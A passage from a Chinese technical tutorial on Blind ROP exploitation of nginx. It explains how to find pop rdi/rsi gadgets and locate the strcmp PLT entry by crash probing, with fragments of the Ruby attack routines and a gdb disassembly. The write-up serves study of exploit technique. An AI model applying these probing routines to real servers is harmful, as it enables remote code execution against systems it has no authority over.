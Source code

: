这样就可以找到6个pop了，然后再通过计算偏移，可以找到pop rsi,ret和pop rdi,ret，换句话说，找到能对rsi和rdi寄存器赋值的gadget即可。



```
def find_gadget()
addr = @plt + 0x200
addr = @plt + 0x1000 # if @large_text
while true
addr += 7
rop = []
rop &lt;&lt; addr
6.times do
rop &lt;&lt; @plt
end
if check_instr(addr, rop)#找到6个pop ret
break if verify_gadget(addr) #测试rdi和rsi偏移
end
end
end
```

[![](https://p2.ssl.qhimg.com/t0175dd0c6549fb794b.png)](https://p2.ssl.qhimg.com/t0175dd0c6549fb794b.png)

通过找到pop rdi，可以在对应nginx中得到印证。通过IDA和Nginx对应地址的对比，5F C3正是pop rdi,ret。



```
40706A  5F C3;  IDA pro
gdb-peda$ disas 0x40706a
   0x0000000000407069 &lt;+2855&gt;:pop    r15
   0x000000000040706b &lt;+2857&gt;:ret    
End of assembler dump.
```

这一步完成后，我们就需要进行strcmp和write对应plt项的查找了，为什么要找strcmp呢，因为strcmp的汇编功能是对rdx赋予一个长度值，通过这种方法可以对rdx，也就是第三个参数赋值，因为在.text字段中很难找到pop rdx,ret这样的gadget。

找这两个plt项，需要利用这两个plt项的特性，比如strcmp就是对比两个字符串内容。如果两个字符串相等，没有崩溃，且不相等，crash的话，这就是一个strcmp。



```
def find_strcmp()
entry = 0
        good = @rip
while true
rc = try_strcmp(entry, good) #对比两个字符串值
if rc != false
print("Found strcmp #`{`rc`}`n")
@strcmp = rc
@strcmp_addr = good
break
end
entry += 1
end
End

def do_try_strcmp(entry, good)
bad1 = 300
bad2 = 500
        return false if call_plt(entry, bad1, bad2) != false
        return false if call_plt(entry, good, bad2) != false
        return false if call_plt(entry, bad1, good) != false
        return false if call_plt(entry, good, good) != true
        return false if call_plt(entry, VSYSCALL + 0x1000 - 1, good) != true
        return true
end
```